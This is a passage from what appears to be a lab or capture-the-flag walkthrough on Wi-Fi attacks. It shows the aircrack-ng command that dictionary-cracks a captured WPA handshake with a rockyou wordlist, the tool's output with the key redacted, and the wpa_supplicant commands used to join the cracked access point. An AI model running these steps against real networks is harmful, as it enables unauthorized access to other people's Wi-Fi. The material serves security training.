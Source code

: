 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL

In the second terminal, we can use the captured WPA handshake to attempt to crack the WPA/WP2 passphrase. We will be performing a dictionary attack in order to match the passphrase against each entry in a specified wordlist file. A shortened version of the infamous rockyou.txt wordlist has already been provided for us to use. This is located in the /home/glitch/ directory. If the passphrase is weak and appears in the wordlist, it will eventually be cracked. The command sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output\*cap will do this for us where the -a 2 flag indicates the WPA/WPA2 attack mode. The -b indicates the BSSID of the access point, and the -w flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.
Terminal

glitch@wifi:\~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output\*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

```
                           Aircrack-ng 1.6

  [00:00:01] 304/513 keys tested (217.04 k/s)

  Time left: 0 seconds                                      59.26%

             KEY FOUND! [ REDACTED ]


  Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09
                   BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB

  Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

  EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD
```

Note: If you get an Packets contained no EAPOL data; unable to process this AP error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the WPA handshake.

With the PSK, we can now join the MalwareM_AP access point. In a typical engagement, we would do this to inspect the new network, or in some cases, joining the access point is enough to show impact. First, press CTRL+C on the terminal that has airodump-ng running in order to stop the airodump-ng process. We do this because we will not be able to join the Wi-Fi network while airodump-ng is running due to the fact that we are actively using the interface in monitor mode. Then execute the following commands:
Terminal

glitch@wifi:\~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
glitch@wifi:\~$ sudo wpa_supplicant -B -c config -i wlan2
